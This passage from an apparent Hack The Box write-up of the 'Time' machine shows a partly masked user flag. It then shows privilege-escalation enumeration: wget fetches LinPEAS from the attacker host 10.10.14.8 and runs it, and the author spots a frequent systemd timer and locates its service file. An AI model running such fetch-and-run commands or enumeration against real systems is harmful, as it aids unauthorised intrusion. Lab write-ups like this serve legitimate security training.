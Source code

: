     
    
    pericles@time:/home/pericles$ cat user.txt
    7e5b3337************************
    

## Shell as root

### Enumeration

After my normal checks didn’t surface much, I started an HTTP server in my
local [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-
scripts-suite/tree/master/linPEAS) directory, uploaded it to Time, and ran it:

    
    
    pericles@time:/dev/shm$ wget 10.10.14.8/linpeas.sh
    --2021-02-09 22:02:59--  http://10.10.14.8/linpeas.sh
    Connecting to 10.10.14.8:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 320037 (313K) [text/x-sh]
    Saving to: ‘linpeas.sh’
    
    linpeas.sh          100%[===================>] 312.54K  --.-KB/s    in 0.07s   
    
    2021-02-09 22:03:00 (4.12 MB/s) - ‘linpeas.sh’ saved [320037/320037]
    
    pericles@time:/dev/shm$ chmod +x linpeas.sh 
    pericles@time:/dev/shm$ ./linpeas.sh
    ...[snip]...
    

One line that jumped out was in the System Timers section:

    
    
    ...[snip]...
    [+] System timers
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#timers     
    NEXT                        LEFT          LAST                        PASSED               UNIT                         ACTIVATES
    Tue 2021-02-09 22:05:01 UTC 5s left       Tue 2021-02-09 22:04:51 UTC 4s ago               timer_backup.timer           timer_backup.service
    ...[snip]...
    

This timer was last run four seconds ago and was going to run again in five
seconds. On HTB machines, any timer less than five minutes is worth looking
at.

### timer_backup

The service will be defined in a file in `/etc/systemd`:

    
    
    pericles@time:/$ find /etc/systemd/ -name timer_backup.service
    /etc/systemd/system/timer_backup.service
    
